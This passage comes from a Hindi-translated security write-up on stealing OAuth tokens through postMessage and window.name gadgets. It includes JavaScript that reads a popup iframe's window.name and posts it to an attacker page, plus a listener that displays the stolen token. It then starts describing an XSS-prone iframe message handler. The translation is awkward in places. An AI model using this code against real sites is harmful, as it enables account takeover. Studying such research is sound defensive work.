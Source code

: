 मैंने एक अंतराल में एक स्क्रिप्ट भी शुरू किया था जो यह जांचने के लिए है कि क्या लिंक खोला गया है और मैं जिस आईफ्रेम तक पहुंचना चाहता था, वहां `window.name` पर सेट किया गया है, जो हमलावर के पृष्ठ पर आईफ्रेम के मूल के साथ है:

```javascript
x = setInterval(function() {
if(parent.window.b &&
parent.window.b.frames[0] &&
parent.window.b.frames[0].window &&
parent.window.b.frames[0].window.name) {
top.postMessage(parent.window.b.frames[0].window.name, '*');
parent.window.b.close();
clearInterval(x);
}
}, 500);
```
3. हमलावर पृष्ठ फिर से उस संदेश को सुन सकता है जिसे हमने अभी `window.name` के साथ भेजा है:

```html
<script>
window.addEventListener('message', function (e) {
if (e.data) {
document.getElementById('leak').innerText = 'We stole the token: ' + e.data;
}
});
</script>
```

## **गैजेट 2: उदाहरण 2, XSS के साथ आईफ्रेम + मूल मूल्यांकन की जांच**

दूसरा उदाहरण एक **आईफ्रेम** था जो **खुश नहीं रास्ता** पर लोड हुआ था और एक XSS का उपयोग कर रहा था **postMessage का उपयोग करके**, लेकिन **संदेश केवल `parent` से अनुमति थी** जो इसे लोड करता था। जब यह `initConfig` के लिए `parent` विंडो को संदेश में `location.href` भेजा गया था, तो आईफ्रेम को नीचे भेज दिया गया था।

मुख्य विंडो ने इस तरह से आईफ्रेम लोड किया:
```html
<iframe src="https://challenge-iframe.example.com/"></iframe>
```
और सामग्री इस तरह दिखती थी (वास्तविकता से बहुत सरलीकृत है, लेकिन हमले को बेहतर समझाने के लिए):
```html
<script>
window.addEventListener('message', function (e) {
if (e.source !== window.parent) {
// not a valid origin to send messages
return;
}
if (e.data.type === 'loadJs') {
loadScript(e.data.jsUrl);
} else if (e.data.type === 'initConfig') {
loadConfig(e.data.config);
}
});
</script>
```
### हमला
